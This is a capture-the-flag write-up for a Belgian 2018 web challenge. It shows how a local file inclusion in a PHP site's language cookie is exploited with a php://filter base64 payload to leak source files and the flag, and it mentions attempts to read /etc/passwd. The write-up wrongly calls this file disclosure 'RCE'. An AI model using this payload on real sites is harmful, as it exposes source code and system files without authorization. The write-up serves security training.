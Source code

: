 # Cyber Security Challenge Belgium: water-you-talking-about-50

**Category:** Web Security
**Points:** 50
**Solves:** 15
**Description:**

> (missing description)

## Write-up

I do not have the description anymore but it said something along the lines of *The flag is a russian word lost in translation*

![index.php]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/index.jpg "index.php")

When visiting the website we are greeted by a modern design of a Hydropump 2.1 installation. Because of the description I immediatly start browsing looking for a russian word which did not get translated. Nothing turns up for a while so I click on `Pусский` to get the russian version of the site. Still nothing... Time to dig a little deeper!

```
GET / HTTP/1.1
Host: **.***.***.***
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=en; ci_session=lmqa66bn85is3ruuls9301um2ivs86tq
Connection: close
Upgrade-Insecure-Requests: 1
```

I look at the request in Burp Suite and try a few basic tricks, still nothing...
However, when fiddling around with the language cookie I noticed some php errors turned up! Aha! We have some LFI going on here!

![php_error]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/php_error.jpg "php_error")

Trying to get /etc/passwd will not work because .php is appended and trying to use string terminators like %00 won't work, we have to try something else here. I tried to include remote files by specifying a URL as parameter, sadly allow_url_include was turned off so that failed.
PHP has a thing called filter, via this command we can use `php://filter/convert.base64-encode/resource=index` as a payload to get RCE in our lang cookie to get the php sourcecode of the index page in a base64 string. Now it was simply finding the right file that contains the flag and surely enough `php://filter/convert.base64-encode/resource=ru` gave us the flag!

![ru.php in base64]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/ru.jpg "ru.php in base64")

**Decoded**:

```
<?php
$footer = "&copy; Secure Operational Systems (SoS) 2017";

$welcome = "Добро пожаловать в контрольную панель для установки Hydropump 2.1, которая позволяет вам контролировать и конфигурировать состояние активной установки гидронасоса. Если у вас есть какие-либо вопросы, обратитесь в службу поддержки по телефону +1 294 234 098";
$signinbtn = "войти в систему";
$adminwelcome = "Добро пожаловать в админ-панель. Пожалуйста, выберите ваш выбор из вариантов ниже";
$adminvalve = "Вы можете управлять всеми клапанами ниже. Обратите внимание, что клапан не может быть отключен, если давление слишком велико.";
$adminsafety = "Всегда помните о соблюдении техники безопасности!";
$inspect = "Проверить";
$inspectlong = "Убедитесь, что все ваши загруженные параметры правильны, запустив их в соответствующей среде тестирования. Проблемы с конфигурацией - это проблема номер один с развертываниями и не покрываются вашим соглашением об обслуживании.";
$submit = "Отправить";
$submitlong = "Отправьте свои настройки на бэкэнд. Обратите внимание, что до новых настроек может пройти до трех циклов. Если никаких изменений не произошло, обратитесь в службу поддержки.";
$validate = "Проверить";
$validatelong = "После отправки убедитесь, что ваши настройки имеют желаемый эффект. Если что-то не так, вернитесь к предыдущей конфигурации как можно скорее.";

$historytitle = "Ниже перечислены все файлы, которые были загружены в прошлом. Обратите внимание, что они очищаются каждые 10 минут, чтобы система не становилась чистой и чистой.";

$enterconfig = "Пожалуйста, введите новые конфигурационные файлы.";

$btnupdate = "Обновить конфигурацию";
$btnview = "Просмотр истории конфигурации";
$btncontrol = "Управление клапаном";
$statetitle = "Текущий рабочий статус. Для внесения изменений необходимо пройти аутентификацию.";


$flag = "CSCBE{LFI_through_BASE64_FTW}";

?>


```